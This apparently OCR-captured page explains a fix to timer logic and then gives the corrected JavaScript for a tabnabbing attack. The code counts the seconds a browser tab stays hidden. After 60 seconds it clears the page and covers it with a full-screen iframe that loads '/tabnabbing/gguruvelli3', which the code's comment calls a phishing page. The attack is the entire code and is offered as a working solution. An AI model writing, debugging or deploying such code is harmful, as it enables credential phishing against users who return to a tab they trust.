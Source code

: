 The solution required:

1. **Store the timer reference** to clear it later
2. **Clear existing timer** before starting a new one
3. **Use 1000ms intervals** so `t >= 60` means 60 seconds
4. **Reset everything** when the tab becomes visible

```javascript
window.gotYou = 1;
var t = 0; // Time away counter
var a = 0; // Away flag (0 = visible, 1 = hidden)
var i = null; // Interval reference

function s() {
  // Clear any existing timer
  if (i) clearInterval(i);

  // Start new timer
  i = setInterval(function () {
    if (a && ++t >= 60) {
      // Increment and check in one line
      clearInterval(i);

      // Load phishing page
      document.body.innerHTML = "";
      document.body.style =
        "margin:0;padding:0;overflow:hidden;background:#fff";

      var f = document.createElement("iframe");
      f.src = "/tabnabbing/gguruvelli3";
      f.style =
        "position:fixed;top:0;left:0;width:100%;height:100vh;border:0;margin:0;padding:0;display:block;z-index:999999";
      document.body.appendChild(f);
    }
  }, 1000); // 1 second intervals
}

function v() {
  if (document.hidden) {
    // Tab became hidden
    a = 1;
    s(); // Start timer
  } else {
    // Tab became visible
    a = 0;
    t = 0; // Reset counter
    if (i) clearInterval(i); // Stop timer
  }
}

document.addEventListener("visibilitychange", v);
```

